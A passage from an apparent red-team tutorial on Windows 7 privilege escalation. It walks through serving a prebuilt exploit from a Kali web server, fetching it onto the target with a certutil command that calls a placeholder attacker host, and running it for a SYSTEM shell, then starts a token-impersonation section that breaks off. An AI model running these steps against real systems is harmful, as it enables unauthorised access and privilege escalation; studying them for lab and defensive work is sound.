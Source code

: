 It is always recommended to analyze the source code to ensure that it is not malicious and works as intended to make any additional modifications required. In this case, we will be using the prebuilt exploit as shown in the following screenshot.

![](../../assets/img/redteam/wpe8.png)

After downloading the pre-built exploit executable, we will need to transfer it over to the target system.

We can now transfer the exploit executable to the target system, this can be done by starting a local web server on the Kali VM with the SimpleHTTPServer Python module:

```bash
sudo python -m SimpleHTTPServer 80]
```

In order to transfer the exploit executable onto the target system, we can utilize the certutil utility. This can be done by running the following command on the target system:

```bash
C:\Temp> certutil -urlcache -f http://<KALI-IP>/41015.exe exploit.exe
```

We can now run the exploit executable by running the following command on the target system:

```bash
C:\Temp> .\exploit.exe
```

As highlighted in the following screenshot, the exploit executable requires the user to specify the target operating system, in our case the target operating system is Windows 7, as a result, we can execute the exploit by running the following command:

```bash
C:\Temp> .\exploit.exe 7
```

![](../../assets/img/redteam/wpe9.png)

After running the exploit with the operating system specified, it will take a few seconds to complete, after which we should have an elevated shell with NT AUTHORITY/SYSTEM privileges as shown in the following screenshot.

![](../../assets/img/redteam/wpe10.png)

Token Impersonation
---

To escalate privileges and bypass access controls, adversaries may create a duplicate of another user's token and impersonate it. By using the DuplicateToken(Ex) function, an adversary can generate a new access token that replicates an existing token. This token can then be used with ImpersonateLoggedOnUser to allow the calling thread to mimic a logged-in user's security context.

This section explores the token impersonation attack process. We will focus on Windows 7 as our target system. Before proceeding, ensure that you have gained initial access to the system and have a meterpreter session.

Follow the steps below to initiate the process:
